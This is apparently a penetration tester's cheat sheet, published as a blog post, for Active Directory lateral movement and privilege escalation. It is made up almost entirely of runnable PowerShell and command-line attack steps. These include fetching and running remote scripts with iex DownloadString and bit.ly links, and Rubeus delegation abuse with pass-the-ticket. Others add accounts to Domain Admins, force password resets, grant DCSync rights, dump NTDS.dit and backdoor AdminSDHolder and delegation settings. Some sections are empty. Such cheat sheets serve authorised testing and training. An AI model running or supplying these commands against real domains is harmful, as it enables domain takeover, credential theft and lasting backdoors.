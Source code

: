 ```yaml
---
layout: post
title: TA0008 Lateral Movement - AD Privilege Escalation
parent: cheatsheets
category: pen
modified_date: 2022-07-19
permalink: /pen/ad-privesc
---
```

<!-- vscode-markdown-toc -->
* [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* [Tampering the OS to enabling Remote Administration](#TamperingtheOStoenablingRemoteAdministration)
* [LATERAL MOVEMENT](#LATERALMOVEMENT)
* [PRIVESC](#PRIVESC)
* [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* [ADD MEMBER](#ADDMEMBER)
* [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* [KERBEROASTING](#KERBEROASTING)
* [ABUSING DELEGATION](#ABUSINGDELEGATION)
* [DUMP NTDS.DIT](#DUMPNTDS.DIT)
* [Admin SDHolder](#AdminSDHolder)
* [SMB v1](#SMBv1)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

## <a name='TamperingtheOStoenablingRemoteAdministration'></a>Tampering the OS to enabling Remote Administration
```powershell
# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

```

## <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe

# BH edge WriteOwner
. .\PowerView.ps1
Set-DomainObjectOwner -Identity admin -OwnerIdentity jfrank_owned -Verbose
Add-DomainObjectAcl -TargetIdentity admin -PrincipalIdentity jfrank_owned -Rights ResetPassword -Verbose
$UserPassword = ConvertTo-SecureString 'Password01' -AsPlainText -Force
Set-DomainUSerPAsswore -Identity admin -AccountPassword $UserPassword -Verbose

# BH edge AllowedToAct \{Protected Users,Sensitive} (TrustedDelegation Abuse)
rubeus.exe hash /user:admin /password:Password01 /domain:contoso
rubeus.exe s4u /user:admin /rc4:xxx /impersonateuser:da_contoso /msdsspn:cifs/share01.contoso /ptt
dir \\share01.contoso\c$

# BH edge SQLadmin (part of SPNTargets Collection Method)
. .\PowerUpSQL.ps1
Get-SQLInstanceScanUDP -ComputerName mssql01.contoso
Get-SQLSysadminCheck -Instance CONTOSO\msqsql01
Invoke-SQLOSCmd -Verbose -Command "whoami" -Instance CONTOSO\mssql01
Invoke-SQLOSCmd -Verbose -Command "net session" -Instance CONTOSO\mssql01 #need local admin rights

```

## <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

## <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

## <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```


## <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

## <a name='KERBEROASTING'></a>KERBEROASTING
```

```
## <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

## <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```

## <a name='AdminSDHolder'></a>Admin SDHolder
```
# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```


## <a name='SMBv1'></a>SMB v1
```
# connecting from kali to windows
smbclient -U jomivz -L 1.2.3.4 -W testlab.local

# win10 tampering: PS activate SMBv1 OptionalFeatures
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```
Reference: [Docs Microsoft - configuring SMB](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3)
